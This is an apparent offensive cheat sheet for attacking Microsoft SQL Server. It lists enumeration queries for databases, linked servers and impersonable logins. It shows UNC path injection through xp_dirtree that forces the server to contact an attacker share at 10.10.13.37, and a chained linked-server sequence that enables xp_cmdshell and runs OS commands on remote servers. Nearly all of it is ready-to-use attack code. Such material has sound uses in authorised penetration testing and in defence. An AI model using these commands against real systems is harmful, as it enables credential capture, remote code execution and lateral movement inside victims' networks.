 List databases:

```sql
SELECT name FROM master..sysdatabases;
```

List linked servers:

```sql
EXEC sp_linkedservers;
```

List logins available for impersonation:

```sql
SELECT distinct b.name FROM sys.server_permissions a INNER JOIN sys.server_principals b ON a.grantor_principal_id = b.principal_id WHERE a.permission_name = 'IMPERSONATE';
```




## UNC Path Injection

- [https://gist.github.com/nullbind/7dfca2a6309a4209b5aeef181b676c6e](https://gist.github.com/nullbind/7dfca2a6309a4209b5aeef181b676c6e)

```
SQL > EXEC master..xp_dirtree '\\10.10.13.37\share\test.txt';
PowerUpSQL > Get-SQLQuery -Instance "SQLSRV01.megacorp.local,1433" -Query "EXEC master..xp_dirtree '\\10.10.13.37\share\test.txt'"
```




## Crawl Links

* [https://blog.netspi.com/how-to-hack-database-links-in-sql-server/](https://blog.netspi.com/how-to-hack-database-links-in-sql-server/)
* [https://blog.netspi.com/wp-content/uploads/2017/05/Technical-Article-Hacking-SQL-Server-Database-Links-Setup-and-Attack-Guide.pdf](https://blog.netspi.com/wp-content/uploads/2017/05/Technical-Article-Hacking-SQL-Server-Database-Links-Setup-and-Attack-Guide.pdf)
* [https://book.hacktricks.xyz/pentesting/pentesting-mssql-microsoft-sql-server](https://book.hacktricks.xyz/pentesting/pentesting-mssql-microsoft-sql-server)
* [https://xakep.ru/2020/01/24/lateral-movement/#toc01.](https://xakep.ru/2020/01/24/lateral-movement/#toc01.)

Exec code from SQLSRV00 when SQLSRV01 and SQLSRV02 are linked like this SQLSRV00 -> SQLSRV01 -> SQLSRV02:

```sql
EXEC sp_serveroption 'SQLSRV01','rpc','true';
EXEC sp_serveroption 'SQLSRV01','rpc out','true';

EXEC ('select SYSTEM_USER;') AT [SQLSRV01];
EXEC ('EXEC (''select SYSTEM_USER;'') AT [SQLSRV02];') AT [SQLSRV01];

EXEC ('EXEC sp_configure ''show advanced options'',1; RECONFIGURE; EXEC sp_configure ''xp_cmdshell'',1; RECONFIGURE;') AT [SQLSRV01];
EXEC ('EXEC (''EXEC sp_configure ''''show advanced options'''',1; RECONFIGURE; EXEC sp_configure ''''xp_cmdshell'''',1; RECONFIGURE;'') AT [SQLSRV02];') AT [SQLSRV01];

EXEC ('EXEC xp_cmdshell ''cmd /c ping -n 2 10.10.13.37'';') AT [SQLSRV01];
EXEC ('EXEC (''EXEC xp_cmdshell ''''cmd /c ping -n 2 10.10.13.37'''';'') AT [SQLSRV02];') AT [SQLSRV01];
```
